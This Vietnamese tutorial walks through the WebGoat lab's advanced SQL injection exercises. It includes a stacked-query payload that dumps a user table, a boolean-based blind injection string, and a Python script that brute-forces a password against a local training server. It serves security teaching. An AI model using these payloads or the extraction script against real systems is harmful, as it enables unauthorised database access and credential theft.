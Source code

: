 ```yaml
---
title: "(A3) SQL Injection - SQL Injection (Advanced) - Webgoat"
tag: "webgoat"
subtitle: " 🐐
  Bài viết này mình sẽ hướng dẫn các bạn làm phần (A3) SQL Injection - SQL Injection (Advanced)"
date: "21-3-2024"
id: "11"
---
```


![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711097747/WebGoat/WebGoat_ad2axz.png)

- **Blind SQL** injection là một phương pháp tấn công vào các ứng dụng web thông qua việc lợi dụng lỗ hổng bảo mật trong việc xử lý cơ sở dữ liệu SQL. Trong kiểu tấn công này, kẻ tấn công cố gắng chèn các câu lệnh SQL vào các trường dữ liệu đầu vào của ứng dụng web để thực hiện các hành động không được ủy quyền hoặc thu thập thông tin từ cơ sở dữ liệu.
- Trong trường hợp blind SQL injection, kẻ tấn công không nhận được bất kỳ phản hồi trực tiếp nào từ hệ thống sau khi thực hiện một yêu cầu tấn công. Thay vào đó, họ phải dựa vào các biểu hiện gián tiếp từ hệ thống để suy luận thông tin về cơ sở dữ liệu.

- Cụ thể, kẻ tấn công có thể sử dụng các kỹ thuật như "boolean-based blind SQL injection" hoặc "time-based blind SQL injection". Trong boolean-based blind SQL injection, kẻ tấn công thực hiện các truy vấn SQL dựa trên các điều kiện logic và suy luận thông tin dựa trên câu trả lời đúng/sai từ hệ thống. Trong time-based blind SQL injection, kẻ tấn công thực hiện các truy vấn có thời gian chạy lâu hơn và suy luận thông tin dựa trên thời gian phản hồi từ hệ thống.
- Các hậu quả của blind SQL injection có thể rất nghiêm trọng, bao gồm việc lợi dụng quyền truy cập không được ủy quyền vào cơ sở dữ liệu, thu thập thông tin nhạy cảm hoặc thậm chí kiểm soát hoàn toàn hệ thống. Để ngăn chặn blind SQL injection, các nhà phát triển web cần chú ý đến việc kiểm tra và xử lý đúng các đầu vào người dùng, sử dụng các phương pháp an toàn trong việc truy xuất cơ sở dữ liệu như Prepared Statements hoặc ORM (Object-Relational Mapping), và thường xuyên cập nhật và kiểm tra mã nguồn để phát hiện và khắc phục các lỗ hổng bảo mật.

## 1. Try It! Pulling data from other tables

- Đề bài yêu cầu lấy tất cả dữ liệu của bảng `user_system_data` và lấy mật khẩu của Dave.
- Nhập câu lệnh sau vào ô Name là nhấn Get Account Info:

```json
'; SELECT * FROM user_system_data;--
```

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711014944/WebGoat/H46_ya1wem.png)

- Ta code thể thấy được mật khẩu của Dave là `passW0rD`, dán mật khẩu vào ô Password và nhấn Check Password là xong:

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711014945/WebGoat/H47_fcgm3n.png)

## 2. Login

- Ta đăng kí một tài khoản với Username là: `tom' AND substring(password, 1, 1)='t`, ta có thể suy ra trong password của Tom có một chữ là `t`:

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711014944/WebGoat/H48_fs50vr.png)

- Ta chạy chương trình Python sau gửi request để kiểm tra tất cả mật khẩu có thể có, thay đổi session_id tương ứng trên trình duyệt của bạn:

```python
import json,requests

def main():
    url = "http://localhost:8080/WebGoat/SqlInjectionAdvanced/challenge"
    webgoat_session_id = "0qexwJ47oTLOrGtzuYKYogZvulhhHESl-HYq07E1"
    header = {
        "Cookie": "JSESSIONID=" + webgoat_session_id,
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "Referer": "http://localhost:8080/WebGoat/start.mvc",
        "Origin": "http://localhost:8080",
        "Host": "localhost:8080",
        "Content-Length": "126",
        "sec-ch-ua": "\"Not?A_Brand\";v=\"8\", \"Chromium\";v=\"108\"",
        "Accept": "*/*",
        "Connection": "keep-alive",
        "X-Requested-With": "XMLHttpRequest",
        "sec-ch-ua-mobile": "?0",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.95 Safari/537.36",
        "sec-ch-ua-platform": "macOS",
        "Sec-Fetch-Site": "same-origin",
        "Sec-Fetch-Mode": "cors",
        "Sec-Fetch-Dest": "empty",
        "Accept-Language": "en-US,en;q=0.9",
        "Accept-Encoding": "gzip, deflate",
    }
    password = ""
    for length in range(1, 25):
        for letter in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789":
            params = "username_reg=tom'+AND+substring(password%2C1%2C" + str(
                length) + ")%3D'" + password + letter + "&email_reg=test%40test.test&password_reg=test&confirm_password_reg=test"
            r = requests.put(url, headers=header, data=params)
            if "already exists" in r.text:
                password += letter
                print(password)
                break
            else:
                continue
    print("")
    print("")
    print("Password found: " + password)

if __name__ == "__main__":
    main()
```

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711014944/WebGoat/H49_tax4nz.png)

- Chạy sẽ hơn lâu, ta tìm được mật khẩu là `thisisasecretfortomonly`. Ta đăng nhập với Username là Tom và mật khẩu vừa tìm được:

![alt](https://res.cloudinary.com/dhs93uix6/image/upload/v1711014945/WebGoat/H50_rbviid.png)
